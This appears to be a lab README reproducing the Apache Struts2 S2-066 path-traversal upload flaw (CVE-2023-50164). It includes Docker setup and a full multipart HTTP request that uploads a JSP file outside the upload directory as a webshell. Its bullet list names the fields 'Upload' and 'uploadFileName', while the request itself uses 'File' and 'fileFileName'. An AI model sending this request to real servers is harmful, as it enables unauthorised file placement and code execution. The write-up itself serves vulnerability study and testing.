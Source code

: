 # Struts2 S2-066 Path Traversal Vulnerability (CVE-2023-50164)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Struts2 is a popular open-source web application framework for developing Java EE web applications. It uses and extends the Java Servlet API to encourage developers to adopt a model–view–controller (MVC) architecture. The framework provides developers with a rich set of tags and utilities to create enterprise-ready web applications that are easy to maintain and extend.

Apache Struts2 S2-066 is a path traversal vulnerability that exists in the file upload functionality. The vulnerability allows attackers to upload files outside the intended upload directory by manipulating the form field name case.

In Struts2's file upload processing, the framework normally only retains the basename of uploaded files to prevent path traversal. However, due to a logic flaw in the processing, attackers can bypass this protection by:

1. Using a form field with an uppercase first letter (e.g., "Upload" instead of "upload")
2. Providing a separate form field with the desired path traversal filename

This allows the unprocessed filename to override the basename protection, resulting in successful path traversal.

References:

- <https://cwiki.apache.org/confluence/display/WW/s2-066>
- <https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/>

## Environment Setup

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080` to access the application, which is a simple file upload page.

## Vulnerability Reproduce

First, try to upload a JSP script to the normal upload directory:

![Normal Upload](1.png)

Although the file is uploaded successfully, the JSP script cannot be executed in the upload directory due to server configuration:

![Execution Failed](2.png)

Exploit the S2-066 vulnerability to upload the file outside the `upload/` directory using the following request:

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 331

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="File"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

Note the key elements in the exploit:

- The form field name is "Upload" (first letter uppercase)
- A separate "uploadFileName" field contains the path traversal "../shell.jsp"

![Successful Upload](3.png)

The JSP file is now uploaded outside the restricted upload directory and can be executed:

![Webshell Execution](4.png)

You can now access the webshell at `http://your-ip:8080/shell.jsp`.
